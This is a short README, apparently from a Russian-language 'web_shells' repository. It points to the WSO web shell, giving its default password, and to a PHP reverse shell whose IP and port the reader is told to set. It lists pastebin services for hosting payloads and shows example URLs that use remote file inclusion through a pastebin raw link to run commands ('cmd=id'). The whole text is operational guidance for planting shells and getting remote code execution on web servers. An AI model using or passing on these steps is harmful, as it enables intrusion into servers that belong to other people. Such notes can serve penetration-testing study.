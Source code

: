 # web_shells For educational purposes only!

## wso shell 
repo - https://github.com/mIcHyAmRaNe/wso-webshell
Пароль по умолчанию - ghost287 (поменять пароль можно в строке 7 указав md5 хеш нового пароля)

## rev-shell 
repo - https://github.com/pentestmonkey/php-reverse-shell/tree/master
Не забудьте указать новый IP и PORT на строке 49 и 50

## pastebin like services
Список сервисов для публикации кода https://github.com/lorien/awesome-pastebins
Проверенные бесплатные сервисы:
- http://vpaste.net/
- https://bpa.st/
- https://pastebin.mozilla.org/
- https://paste.debian.net/
- https://pastebin.fi/

После размещения ищем кнопку RAW и получаем ссылку на текст файла, который уже можно использовать для RFI\RCE
P.S. При работе с RFI не забывайте, что вы передаёте ссылку как параметр, и если внутри вашего кода тоже есть обработчик параметра, то его нужно передавать не через ?, а через &

🚫 BAD - http://127.0.0.1/test.php?page=https://pastebin.fi/r/lolkek?cmd=id 
🆗 GOOD - http://127.0.0.1/test.php?page=https://pastebin.fi/r/lolkek&cmd=id 
